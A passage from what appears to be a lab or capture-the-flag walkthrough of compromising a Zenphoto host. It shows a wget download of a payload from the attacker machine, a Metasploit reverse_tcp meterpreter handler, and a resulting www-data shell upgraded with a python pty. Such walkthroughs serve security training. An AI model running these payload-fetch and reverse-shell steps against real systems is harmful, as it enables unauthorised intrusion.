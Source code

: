 Using the exploit's shell, we can now download the file and make it executable.

```
zenphoto-shell# wget http://192.168.118.3:8000/shell.elf -P /tmp

zenphoto-shell# chmod +x /tmp/shell.elf

zenphoto-shell#
```

Let's set up the meterpreter handler:

```
kali@kali:~$ msfconsole
...
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.118.3
LHOST => 192.168.118.3
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.118.3:443 
```

Now we're ready to execute our payload:

```
zenphoto-shell# /tmp/shell.elf

[-] Exploit failed!
kali@kali:~$
```

Although it appears that the exploit has failed, the handler indicates that we have received our shell:

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.118.3:443 
[*] Sending stage (985320 bytes) to 192.168.120.83
[*] Meterpreter session 1 opened (192.168.118.3:443 -> 192.168.120.83:50513) at 2020-03-24 12:47:32 -0400

meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
meterpreter > shell
Process 1877 created.
Channel 1 created.
python -c 'import pty; pty.spawn(""/bin/bash"")'
<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$
```
